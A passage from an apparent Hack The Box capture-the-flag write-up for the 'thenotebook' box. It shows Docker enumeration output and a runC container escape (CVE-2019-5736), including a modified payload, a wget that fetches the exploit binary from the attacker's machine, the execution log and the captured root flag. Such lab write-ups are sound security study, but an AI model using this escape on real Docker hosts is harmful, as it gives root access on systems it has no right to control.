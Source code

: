     [+] Sock is writable ........ No
    To see full info from the docker sock output run the following

    curl -s --unix-socket /var/run/docker.sock http://localhost/info

    [+] Docker Exploits ......... 18.06.0-ce
    [+] CVE–2019–13139 .......... deepce.sh: 139: printf: 0-ce: not completely converted
    Yes
    Docker versions before 18.09.4 are vulnerable to a command execution vulnerability when
    parsing URLs

    [+] CVE–2019–5736 ........... deepce.sh: 139: printf: 0-ce: not completely converted
    Yes
    Docker versions before 18.09.2 are vulnerable to a container escape by overwriting the
    runC binary

    ==================================( Enumerating Containers )==================================
    ==============================================================================================


A quick Google search return us a simple [CVE-2019-5736 PoC](https://github.com/Frichetten/CVE-2019-5736-PoC)
written in Golang.

We modify the `main.go` file with the payload `var payload = "#!/bin/bash \n cat /root/root.txt > /tmp/shadow && chmod 777 /tmp/shadow"`
and compile it using `go build main.go`. We then download it from the docker and
run it.

    :::text
    noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash
    root@893ea5c84398:/opt/webapp# cd /tmp/
    root@893ea5c84398:/tmp# wget http://10.10.14.28:8000/main
    --2021-03-08 17:07:53--  http://10.10.14.28:8000/main
    <SNIP>
    2021-03-08 17:07:53 (10.8 MB/s) - ‘main’ saved [2236814/2236814]

    root@893ea5c84398:/tmp# chmod +x main
    root@893ea5c84398:/tmp# ./main
    [+] Overwritten /bin/sh successfully
    [+] Found the PID: 103
    [+] Successfully got the file handle
    [+] Successfully got write handle &{0xc0004078c0}
    root@893ea5c84398:/tmp#


On another terminal on the "thenotebook" host we run the following command (our exploit binary rewrite
`/bin/sh` so we need to call that command) and get the private flag.

    :::text
    noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh
    No help topic for '/bin/sh'
    noah@thenotebook:~$ ls /tmp/
    home  shadow  systemd-private-0c3e87bdcb724a669778cfa72c5b4017-systemd-timesyncd.service-vsSHAh  tmux-1000  vmware-root_611-3980232955
    noah@thenotebook:~$ cat /tmp/shadow
    e16458a8ec21a020bb382e56d8f0ed42

# Wrapping up

An interesting box as working with JWT token is more and more common. The docker
exploit is simple to use. A nice box overall.

